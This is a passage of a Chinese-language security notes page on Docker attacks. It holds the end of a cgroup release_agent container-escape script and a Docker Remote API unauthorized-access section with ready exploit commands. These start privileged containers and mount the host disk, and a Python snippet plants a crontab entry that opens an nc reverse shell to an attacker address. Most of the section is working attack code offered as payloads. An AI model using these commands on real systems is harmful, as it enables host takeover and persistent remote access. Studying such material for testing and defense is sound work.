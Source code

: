     cat /tmp/cgrp/release_agent

    echo '#!/bin/sh' > /cmd
    echo "ls > $host_path/output" >> /cmd
    chmod a+x /cmd
    sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
    head /output
    ```

**Docker Remote API 未授权访问漏洞**
- 简述

    Docker Remote API 是一个取代远程命令行界面（rcli）的 REST API。存在问题的版本分别为 1.3 和 1.6 因为权限控制等问题导致可以通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell。

- 文章
    - [新姿势之Docker Remote API未授权访问漏洞分析和利用](https://wooyun.js.org/drops/%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8.html)
    - [Docker Remote API未授权访问漏洞复现](https://zgao.top/docker-remote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
    - [Docker daemon api 未授权访问漏洞](https://mp.weixin.qq.com/s/sPNEQ5n0rQEspTi7UescLg)

- POC | Payload | exp
    - `http://[ip]:2375/version`
        ```bash
        docker -H tcp://[IP]:2375 version
        docker -H tcp://[IP]:2375 ps

        docker -H tcp://[IP] run -it --privileged=true busybox sh
        fdisk -l
        mkdir /aaa
        mount /dev/dm-0 /aaa

        或

        docker -H tcp://xx.xx.xx.xx:2375 run -it -v /:/mnt busybox sh
        cd /mnt
        ls
        ```
    - [netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)
    - [Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)
    - [docker daemon api 未授权访问漏洞](https://github.com/vulhub/vulhub/blob/master/docker/unauthorized-rce/README.zh-cn.md)
        ```py
        import docker

        client = docker.DockerClient(base_url='http://your-ip:2375/')
        data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 反弹地址 反弹端口 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
        ```

---

### 容器服务缺陷引起

